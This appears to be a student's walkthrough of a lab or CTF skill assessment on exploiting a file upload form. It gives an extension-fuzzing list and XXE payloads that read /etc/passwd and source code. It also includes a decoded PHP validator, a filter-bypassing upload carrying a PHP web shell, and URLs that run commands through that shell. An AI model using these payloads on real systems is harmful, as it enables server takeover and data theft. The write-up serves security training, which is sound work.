




# File Upload Attack Skill Assessment

## Scenario

You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

## Question

Try to exploit the upload form to read the flag found at the root directory "/". 

## Answer

1. Browse the web application and find the file upload functionality, it is located in `http://154.57.164.75:31990/contact/` 

2. Send a legitimate file/image to see the positive response 

3. Transfer the requests to Intruder and FUZZ the extension below, analyze the extensions that are allowed (disable URL encoding before running the Intruder)
```
.svg
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.inc
```

 

4. Document the allowed extensions (use one of these as filename)

```
.svg
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

5. Send one of the working extension to Repeater 

6. Try either web shell payload, or XXE (this case, XXE works)

```http
------geckoformboundary6c25d0fdeb94805de429d12866bb97a2
Content-Disposition: form-data; name="uploadFile"; filename="shell.svg
"
Content-Type: image/jpeg

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
------geckoformboundary6c25d0fdeb94805de429d12866bb97a2--
```


7. But at this point we don't know how to bypass the PHP filter, so we try to get the Base64 encoded version of `upload.php` by using this payload

```http
------geckoformboundary6c25d0fdeb94805de429d12866bb97a2
Content-Disposition: form-data; name="uploadFile"; filename="shell.svg
"
Content-Type: image/jpeg

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
------geckoformboundary6c25d0fdeb94805de429d12866bb97a2--
```


8. Copy the Base64 strings and  decode it

```bash
echo "PD9waHAKcmVxdWlyZV9vbmNlKCcuL2NvbW1vbi1mdW5jdGlvbnMucGhwJyk7CgovLyB1cGxvYWRlZCBmaWxlcyBkaXJlY3RvcnkKJHRhcmdldF9kaXIgPSAiLi91c2VyX2ZlZWRiYWNrX3N1Ym1pc3Npb25zLyI7CgovLyByZW5hbWUgYmVmb3JlIHN0b3JpbmcKJGZpbGVOYW1lID0gZGF0ZSgneW1kJykgLiAnXycgLiBiYXNlbmFtZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bIm5hbWUiXSk7CiR0YXJnZXRfZmlsZSA9ICR0YXJnZXRfZGlyIC4gJGZpbGVOYW1lOwoKLy8gZ2V0IGNvbnRlbnQgaGVhZGVycwokY29udGVudFR5cGUgPSAkX0ZJTEVTWyd1cGxvYWRGaWxlJ11bJ3R5cGUnXTsKJE1JTUV0eXBlID0gbWltZV9jb250ZW50X3R5cGUoJF9GSUxFU1sndXBsb2FkRmlsZSddWyd0bXBfbmFtZSddKTsKCi8vIGJsYWNrbGlzdCB0ZXN0CmlmIChwcmVnX21hdGNoKCcvLitcLnBoKHB8cHN8dG1sKS8nLCAkZmlsZU5hbWUpKSB7CiAgICBlY2hvICJFeHRlbnNpb24gbm90IGFsbG93ZWQiOwogICAgZGllKCk7Cn0KCi8vIHdoaXRlbGlzdCB0ZXN0CmlmICghcHJlZ19tYXRjaCgnL14uK1wuW2Etel17MiwzfWckLycsICRmaWxlTmFtZSkpIHsKICAgIGVjaG8gIk9ubHkgaW1hZ2VzIGFyZSBhbGxvd2VkIjsKICAgIGRpZSgpOwp9CgovLyB0eXBlIHRlc3QKZm9yZWFjaCAoYXJyYXkoJGNvbnRlbnRUeXBlLCAkTUlNRXR5cGUpIGFzICR0eXBlKSB7CiAgICBpZiAoIXByZWdfbWF0Y2goJy9pbWFnZVwvW2Etel17MiwzfWcvJywgJHR5cGUpKSB7CiAgICAgICAgZWNobyAiT25seSBpbWFnZXMgYXJlIGFsbG93ZWQiOwogICAgICAgIGRpZSgpOwogICAgfQp9CgovLyBzaXplIHRlc3QKaWYgKCRfRklMRVNbInVwbG9hZEZpbGUiXVsic2l6ZSJdID4gNTAwMDAwKSB7CiAgICBlY2hvICJGaWxlIHRvbyBsYXJnZSI7CiAgICBkaWUoKTsKfQoKaWYgKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyJ1cGxvYWRGaWxlIl1bInRtcF9uYW1lIl0sICR0YXJnZXRfZmlsZSkpIHsKICAgIGRpc3BsYXlIVE1MSW1hZ2UoJHRhcmdldF9maWxlKTsKfSBlbHNlIHsKICAgIGVjaG8gIkZpbGUgZmFpbGVkIHRvIHVwbG9hZCI7Cn0K" | base64 -d
```

9. Analyze the source code:

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```
- Analyzing the source code: 
	- `./user_feedback_submissions/` is the target directory where the uploaded file is stored
	- The file format is `yymmdd_filename.extension` 
	- `phar` can bypass the blacklist
	- the file extension has to end with "g" as a whitelist
- Craft the payload accordingly to bypass the filter rules
	- `260224_shell.phar.jpg`

10. Send the RCE Payload with `260224_shell.phar.jpg` as file name

```http
------geckoformboundary6c25d0fdeb94805de429d12866bb97a2
Content-Disposition: form-data; name="uploadFile"; filename="shell.phar.jpg
"
Content-Type: image/jpeg

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
<?php system($_REQUEST["cmd"]); ?>
------geckoformboundary6c25d0fdeb94805de429d12866bb97a2--
```

11. Access the Shell and run the command and you should be able to run the web shell:

```http
http://154.57.164.75:31990/contact/user_feedback_submissions/260224_shell.phar.jpg?cmd=whoami
```

12. Find the flag using this command

```http
http://154.57.164.75:31990/contact/user_feedback_submissions/260224_shell.phar.jpg?cmd=ls+/
```

>**NOTE** : you can't access the URL using NULL Byte extension to inject the web shell payload since it can get into trouble accessing it using URL, but you can't use it to uncover the source code